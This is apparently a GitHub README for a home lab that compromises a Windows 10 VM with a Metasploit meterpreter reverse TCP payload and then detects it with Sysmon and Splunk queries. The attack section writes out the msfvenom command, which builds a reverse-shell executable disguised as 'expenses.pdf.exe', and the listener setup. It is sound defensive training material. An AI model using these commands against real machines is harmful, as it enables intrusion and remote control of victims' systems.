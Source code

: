 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview

This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used

- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**
- **Metasploit framework (`msfvenom`, `msfconsole`)**

## Attack Simulation

Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Kali Linux, Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken

1. **Finding an open port** 

   Find an open port using `nmap -A -Pn <Victim IP address>`

2. **Generating the payload**

   Create a meterpreter reverse tcp payload using msfvenom on the kali linux machine

   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
   -f exe -o expenses.pdf.exe
   ```

3. **Deliver the payload to the victim machine**

   via email, USB, etc.
4. **Establish a Meterpreter session via msfconsole**

   To receive the reverse shell, Metasploit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

   ![msf exploit](images/Meterpreter_exploit.png)

## Detection

Tools used: Windows 10, Sysmon, Splunk

### Initial Detection: Unusual Network Connection

Looking at event data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`, indicating a Potential compromise.

Looking at more events using the spl query of:

```bash
 index=sysmon EventCode=3 <attacker IP address>
```

An event is found where:

![Image showing suspicious file](images/Splunk_Meterpreter_Process.png)

```bash
DestinationIp: <attacker IP address>
sourceIp: <victim IP address>
Image: C:\Users\<User>\Downloads\expenses.pdf.exe
```

Indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel

Using the query of:

```bash
index=sysmon EventCode=1 expenses.pdf.exe
```

![shell spawned from expenses](images/Splunk_Meterpreter_Spawn_Shell.png)

An event indicating cmd.exe was created from the parent process of `expenses.pdf.exe`\
From this we can take the process guid to find what commands have been executed by the shell

```bash
index=sysmon process_guid = <process_guid>
| table _time, ParentImage,  Image, CommandLine
```

From the above query we get the resut:
![Image showing what commands executed](images/Splunk_Meterpreter_Commands_Exec_part_1.png) ![Image part 2](images/Splunk_Meterpreter_Commands_Exec_part_2.png)
Through this image resulting from using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user.
